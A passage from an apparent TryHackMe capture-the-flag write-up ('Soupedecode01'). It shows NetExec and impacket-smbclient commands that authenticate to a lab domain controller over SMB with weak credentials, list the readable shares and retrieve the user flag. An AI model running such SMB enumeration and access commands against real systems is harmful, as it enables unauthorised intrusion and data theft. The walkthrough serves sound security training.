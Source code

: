 ### Authentication with SMB

```sh
nxc smb SOUPEDECODE.LOCAL -u ybob317 -p ybob317 --shares
```

The valid `ybob317` credentials worked, showing read access to key shares including `NETLOGON`, `SYSVOL`, and `Users`, which may store sensitive files.

```sh
SMB         10.10.150.50    445    DC01             Share           Permissions     Remark
SMB         10.10.150.50    445    DC01             -----           -----------     ------
SMB         10.10.150.50    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.150.50    445    DC01             backup                          
SMB         10.10.150.50    445    DC01             C$                              Default share
SMB         10.10.150.50    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.150.50    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.150.50    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.150.50    445    DC01             Users           READ 
```

Connected to SMB as `ybob317`, accessed the `Users` share, navigated to the user’s Desktop, and retrieved `user.txt`.

```sh
impacket-smbclient 'SOUPEDECODE.LOCAL/ybob317:ybob317@SOUPEDECODE.LOCAL'
```

![](/images/TryHackMe/Soupedecode01/user-flag.png)

---